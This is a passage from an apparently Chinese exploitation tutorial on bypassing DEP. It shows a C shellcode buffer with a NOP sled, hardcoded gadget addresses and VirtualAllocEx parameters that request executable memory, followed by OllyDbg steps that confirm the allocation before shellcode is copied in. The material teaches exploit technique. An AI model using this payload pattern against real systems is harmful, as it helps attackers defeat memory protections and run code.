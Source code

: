 ```c
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\xFF\xFF\xFF\xFF"//-1 当前进程
    "\x00\x00\x03\x00"//申请空间起始地址 0x00030000
    "\xFF\x00\x00\x00"//申请空间大小 0xFF
    "\x00\x10\x00\x00"//申请类型 0x1000
    "\x40\x00\x00\x00"//申请空间访问类型 0x40
    ; 
```

编译好程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后按 F8 键单步运行到 0x7C8245C2（VirtualAlloc 函数的 RETN 0x10）暂停，观察内存状态。

如图 12.3.26 所示，EAX 中是我们申请空间的起始地址 0x00030000，这也说明我们的空间申请成功了，此时通过 OllyDbg 的内存窗口也可以看到我们刚刚申请的空间，而且属性是带 E 的标志！下面就是向这部分内存空间复制 shellcode 了。
